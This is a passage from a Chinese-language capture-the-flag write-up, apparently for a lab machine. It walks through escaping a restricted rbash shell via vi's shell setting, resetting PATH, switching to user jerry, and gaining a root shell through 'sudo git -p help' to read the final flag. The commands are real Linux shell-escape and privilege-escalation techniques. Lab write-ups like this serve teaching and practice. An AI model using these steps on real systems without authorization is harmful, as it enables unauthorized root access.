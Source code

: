 忽然想到拿tom账号登陆一下 尝试之后 发现 flag3 原来在这里

![](img/9.png)



尝试使用vi 发现可以打开flag3，但是没有有用的信息，但是使用vi命令编辑一个新的文件时可以进行绕过。

或使用下方法：
```
#新建一个vi shell.txt   //在里边输入
: set shell =/bin/sh
:shell
#就可以了
```

- **flag3**

![](img/10.png)

但是到了后面看到大佬的笔记发现，其实是登陆tom的账号然后使用 vi 得到sh权限



在vi命令中，设置shell可以进行绕过，在进行导入export PATH=/usr/sbin:/usr/bin:/sbin:/bin，成功绕过后（绕过rbash可以借鉴freebuf中的文章：Linux Restricted Shell绕过技巧总结），将用户换成jerry，进行git提权。


```
vi text

$pwd
/home/tom
export PATH=/usr/sbin:/usr/bin:/sbin:/bin
su jerry
```

将用户换成jerry，进行git提权。


通过git提权，得到最后的flag
```
sudo git -p help

!/bin/sh
cd --
cd /
ls
cat final-flag.txt
```
